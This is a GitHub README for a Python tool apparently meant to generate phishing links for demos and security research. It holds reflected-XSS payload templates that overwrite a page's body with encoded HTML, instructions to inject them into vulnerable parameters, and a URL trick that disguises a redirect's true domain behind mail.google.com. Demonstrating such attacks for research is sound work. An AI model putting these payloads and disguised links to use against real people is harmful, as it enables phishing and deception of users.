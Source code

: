 # gonephishing


Generate phishing urls for demos and fun (serious security research).

### clone

git clone --recurse-submodules https://github.com/vlp443/gonephishing.git

### Requires

pip3 install htmlmin

### Usage

#### Reflected XSS

 Generate a minified version of an html file and optionally encode it then inject it into some javascript/html.  
 
 the containing javascript must contain a ¬  (shift + backtick in UK) to mark location to inject html into.  
 
 Current supported encoders are b64 (base64), hex ('\xAA\xBB' etc), pcnt (every character as url encoded).  If pcnt encoding isnt selected the string gets a standard urlencode
 
 IE only supports around 2000 characters in a get.


Create a file called test.html (the @ sign below signifies that you are using a file rather than direct input)
~~~
python3 ./gonephishing.py --xss --html "@./test.html" --js '<script>document.body.innerHTML=atob("¬")</script>'  --encoders b64

python3 ./gonephishing.py --xss --html "@./test.html" --js '<script>document.body.innerHTML=("¬")</script>'   --encoders hex

python3 ./gonephishing.py --xss --html "@./test.html" --js '<script>document.body.innerHTML=atob("¬")</script>'   --encoders b64,hex

python3 ./gonephishing.py --xss --html "@./test.html" --js '<script>document.body.innerHTML="¬"</script>'  --encoders pcnt
~~~
Paste the generated link into the vulnerable request parameter and the page should be overwritten with the supplied html.


#### GMAIL Redirect
OH COOL THEYVE FIXED IT, this now warns you that you are being redirected.  Will modify it to do something like this:
https://mail.google.com&uid=354f2d78-58ba-4369-8893-5b8816a1ac81&timestamp=4563728@%63%75%74%65%63%61%74%73%69%6e%68%61%74%73%2e%63%6f%6d
Which is good because it can work for any domain although I find the initial ampersand a bit annoying

~~~
python3 ./gonephishing.py --gmail  --dest https://cutecatsinhats.com/ 
~~~



### About
The OWASP top ten 2013 included A10-Unvalidated Redirects and Forwards with the following description:
Web applications frequently redirect and forward users to other pages and websites, and use untrusted data to determine the destination pages. Without proper validation, attackers can redirect victims to phishing or malware sites, or use forwards to access unauthorized pages. 

This item does not appear in the top ten 2017

google.com has over 40 unsecured redirects  This is unlikely to change as google do not see it as a vulnerability. https://sites.google.com/site/bughunteruniversity/nonvuln/open-redirect


I would expect that the majority of users would trust a site if they were redirected via mail server domain that they were logged into.  This would then cause the user to be more likely to accept a squatted domain of the type described in the quiz below due to the fact that they trust the url via which they were redirected.
 https://phishingquiz.withgoogle.com/



